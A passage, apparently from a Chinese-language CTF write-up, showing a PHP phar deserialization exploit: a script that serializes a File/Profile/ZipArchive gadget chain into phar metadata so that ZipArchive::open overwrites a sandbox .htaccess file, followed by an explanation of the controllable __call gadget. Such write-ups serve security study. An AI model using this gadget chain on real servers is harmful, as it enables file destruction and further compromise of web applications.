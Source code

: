``` php
<?php

class File{

    public $filename;
    public $filepath;
    public $checker;

    function __construct($filename, $filepath)

    {
        $this->filepath = $filepath;

        $this->filename = $filename;
    }

}

class Profile{

    public $username;
    public $password;
    public $admin;

}

$a = new File("altman","altman");
$a->checker = new Profile();
$a->checker->username = "/var/www/html/sandbox/a87136ce5a8b85871f1d0b6b2add38d2/.htaccess";
$a->checker->password = ZipArchive::OVERWRITE | ZipArchive::CREATE;
$a->checker->admin = new ZipArchive();
echo serialize($a);

$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();

?>
```

从之前的源码我们可以看到这样一句：
``` php
// config.php
// class Profile
function __call($name, $arguments)
    {
        $this->admin->open($this->username, $this->password);
    }
```
此处调用了admin的`open()`方法，而且admin是我们可控的，因此我们找找看php中拥有`open()`方法的内置类有没有可利用的
